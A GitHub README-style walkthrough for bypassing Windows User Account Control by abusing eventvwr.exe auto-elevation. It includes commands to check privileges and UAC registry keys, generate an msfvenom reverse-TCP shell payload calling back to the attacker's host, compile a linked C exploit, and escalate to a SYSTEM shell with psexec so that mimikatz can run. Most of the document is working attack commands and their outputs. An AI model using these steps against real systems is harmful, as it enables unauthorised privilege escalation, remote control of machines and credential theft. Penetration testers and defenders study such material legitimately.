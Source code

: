 # UAC-bypass

If you're in Administrator group but are on Medium Mandatory Level, you can't run some commands and tool due to User Account Control. One should need to bypass UAC to get on High Mandatory Level, from there we can become SYSTEM. With UAC enabled we can't run tools like mimikatz, and sometime commands like changing administrator password etc.

# Exploitation

## Check for Permissions
```markdown
whoami /all
```
![OnPaste 20220608-165652](https://user-images.githubusercontent.com/106917304/172605390-b7dfb995-c707-45cd-be78-9c7d2f23c4a5.png)

We're in administrator group and on Medium Mandatory Level.
## Check For UAC is Enabled
```markdown
reg query HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System 
```
![OnPaste 20220608-170237](https://user-images.githubusercontent.com/106917304/172606326-7b52b703-d024-4c97-ad19-29105d509a2f.png)

EnableLUA tells us whether UAC is enabled. If 0 we don’t need to bypass it and we can just PsExec to SYSTEM. If it’s 1 however, then check the other 2 keys 
PromptSecureDesktop is on.


First we ensure that eventvwr.exe exists and is set to autoelevate to High integrity.
```markdown
where /r C:\\windows eventvwr.exe
```
![OnPaste 20220608-170657](https://user-images.githubusercontent.com/106917304/172607955-1ffda1af-2254-4a7e-86a8-7ee739529943.png)


Upload [strings64.exe](https://github.com/k4sth4/UAC-bypass/blob/main/strings64.exe) to target machine.
```markdown
strings64.exe -accepteula C:\\Windows\\System32\\eventvwr.exe | findstr /i autoelevate
```

![OnPaste 20220608-171241](https://user-images.githubusercontent.com/106917304/172608066-79407888-b78d-4484-b071-6fed6d09ca48.png)

We can see the value is set to True.

## Making of an Exploit

Now on Atacker machine generate msfvenom payload:
```markdown
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 -f exe > shell.exe
```
we gonna use [eventvwr-bypassuac.c](https://github.com/k4sth4/UAC-bypass/blob/main/eventvwr-bypassuac.c)


NOTE: Remember the name of the reverse shell that we generated with masfvenom is shell.exe. If you have given another name to payload, must change the name in C script and both our shell.exe and eventvwr-bypassuac.c needs to be on same directory on attacker vm.

We need to compile the C script to get our exploit.
```markdown
x86_64-w64-mingw32-gcc eventvwr-bypassuac.c -o eventvwr-bypassuac-64.exe
```

![OnPaste 20220608-172613](https://user-images.githubusercontent.com/106917304/172610444-fbd93a1f-09bf-4a31-b099-0d9f371391b3.png)


## Reverse Shell

Now upload shell.exe and eventvwr-bypassuac-64.exe to target machine and execute eventvwr-bypassuac-64.exe.  
```markdown
.\eventvwr-bypassuac-64.exe 
```
![OnPaste 20220608-173002](https://user-images.githubusercontent.com/106917304/172611083-5c94570f-2d4b-4eef-a7a8-5ea6308fd890.png)

Got Reverse Shell.

![OnPaste 20220608-173131](https://user-images.githubusercontent.com/106917304/172611380-ad7daa97-e036-4d7a-9717-3c8740496d66.png)

We can see that now we are on High Mandatory Level.

![OnPaste 20220608-173341](https://user-images.githubusercontent.com/106917304/172611822-9f2d5991-d494-40a2-9815-ef76f572cfa4.png)

Now we can run mimikatz!

If you want SYSTEM shell we can now become SYSTEM with [psexec64.exe](https://github.com/k4sth4/UAC-bypass/blob/main/psexec64.exe)

Upload psexec64.exe and shell.exe on target machine with High Mandatory Level. Now execute psexec64.exe with shell.exe.
```markdown
.\psexec64.exe -i -accepteula -d -s C:\\programdata\\shell.exe
```

After that we'll get a reverse shell as SYSTEM.

